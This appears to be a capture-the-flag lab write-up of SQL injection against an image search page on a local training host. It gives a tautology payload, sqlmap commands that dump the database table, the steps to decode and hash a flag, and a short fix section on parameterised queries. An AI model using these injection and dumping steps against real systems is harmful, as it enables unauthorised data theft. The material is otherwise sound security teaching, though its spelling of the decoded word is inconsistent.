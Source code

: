 VULNERABILTY__
   => Search image tag, is vulnerable to sql injection.


EXPLOIT_?
    step1 ) => see if the sight reposnds to an SQL Injection
    nu typing  [ 1 or 1 = 1], in the search bar and then press Enter.

    step 2) => if the page returns information about an image,
        open terminal, copy the URL and paste in sqlmap
        like so,

        sqlmap -u "http://192.168.8.6/?page=searchimg&id=1+or+1+%3D+1&Submit=Submit#" --tables

        => this should return the schema's of the database.
        => then 

        sqlmap -u "http://192.168.8.6/?page=searchimg&id=1+or+1+%3D+1&Submit=Submit#" --dump -T list_images

        ^ should retune the table:
        
 ```bash       
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| id | url                              | title     | comment                                                                                                               |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| 1  | https://www.nsa.org/img.jpg      | Nsa       | An image about the NSA !                                                                                              |
| 2  | https://www.42.fr/42.png         | 42 !      | There is a number..                                                                                                   |
| 3  | https://www.google.fr/google.png | Google    | Google it !                                                                                                           |
| 4  | https://www.obama.org/obama.jpg  | Obama     | Yes we can !                                                                                                          |
| 5  | borntosec.ddns.net/images.png    | Hack me ? | If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 |
| 6  | https://www.h4x0r3.0rg/tr0ll.png | tr00l     | Because why not ?                                                                                                     |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
```

    => copy and paste " 1928e8083cf461a51303633093573c46" on  "https://www.md5online.org/md5-decrypt.html" to get
    a decoded string i.e "albatroz", then then type "abatroz" in "https://passwordsgenerator.net/sha256-hash-generator/"
    to get the Flag "5F894D1824AFA90D623FA370A9DA97603427A2902F97C280D93D6561F7FB373B"

```bash
 1928e8083cf461a51303633093573c46 => albaroz => 5F894D1824AFA90D623FA370A9DA97603427A2902F97C280D93D6561F7FB373B
 ```

SOLUTION:
```bash
    Use SQL Parameters (parametized Queries)
     for Protection e.g txtNam = getRequestString("CustomerName");
                        txtAdd = getRequestString("Address");
                        txtCit = getRequestString("City");
                        txtSQL = "INSERT INTO Customers (CustomerName,Address,City) Values(@0,@1,@2)";
                        db.Execute(txtSQL,txtNam,txtAdd,txtCit);
                        ```

    => use prepared statements  and  stored procedure                              
  